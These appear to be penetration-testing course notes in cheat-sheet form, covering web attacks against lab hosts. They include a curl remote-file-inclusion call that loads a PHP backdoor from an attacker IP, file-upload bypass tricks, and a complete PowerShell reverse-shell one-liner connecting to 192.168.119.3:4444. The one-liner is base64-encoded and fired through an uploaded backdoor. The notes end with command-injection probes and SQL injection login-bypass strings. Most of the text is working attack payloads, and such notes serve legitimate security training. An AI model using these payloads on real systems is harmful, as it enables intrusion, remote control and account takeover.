 ```bash
curl "http://mountaindesserts.com/index.php?page=http://192.168.119.3/simple-backdoor.php&cmd=ls"
```

## File Upload Vulnerabilities

Combine with another vulnerability, e.g., Directory Traversal, XXE or XSS:
- Overwrite files like **authorized_keys** using a relative path (`../../root/.ssh/authorized_keys`) in the file upload request.

- Embed an **XXE** attack to display file contents or even execute code when  **upload an avatar** to a profile with an **SVG** file type.

To bypass filters that only check for the most common file extensions, change the file extension to **.phps** or **.php7**, **.pHP**.

Use PowerShell to encode the reverse shell one-liner

```pwsh
$Text = '$client = New-Object System.Net.Sockets.TCPClient("192.168.119.3",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
$EncodedText = [Convert]::ToBase64String($Bytes)
$EncodedText
```

```bash
curl http://192.168.50.189/uploads/simple-backdoor.pHP?cmd=powershell%20-enc%20<$EncodedText>
```

## Command Injection Vulnerabilities

Determine if our commands are executed by PowerShell or CMD

```pwsh
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```

## SQL Injection Attacks

Vunerable SQL query:
`$sql_query = "SELECT * FROM users WHERE user_name= '$uname' AND password='$passwd'";`

### Authentication bypass

Enter in the *Username* field  

```
offsec' OR 1=1 -- //
```

```
tom' or 1=1 LIMIT 1;#
```
